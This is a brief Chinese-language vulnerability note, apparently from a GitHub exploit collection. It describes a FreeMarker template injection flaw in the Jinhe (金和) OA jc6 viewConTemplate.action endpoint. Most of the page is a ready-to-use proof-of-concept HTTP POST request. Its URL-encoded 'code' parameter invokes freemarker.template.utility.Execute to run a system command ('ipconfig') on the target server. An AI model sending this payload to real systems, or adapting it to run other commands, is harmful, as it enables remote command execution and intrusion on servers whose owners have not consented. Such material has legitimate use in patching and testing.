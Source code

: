 ## 金和OA_jc6_viewConTemplate.action存在FreeMarker模板注入漏洞


## poc
```
POST /jc6/platform/portalwb/portalwb-con-template!viewConTemplate.action HTTP/1.1
Host: your-ip
Accept-Encoding: gzip
Content-Type: application/x-www-form-urlencoded
 
moduId=1&code=%253Cclob%253E%2524%257B%2522freemarker.template.utility.Execute%2522%253Fnew%28%29%28%2522ipconfig%2522%29%257D%253C%252Fclob%253E&uuid=1
```
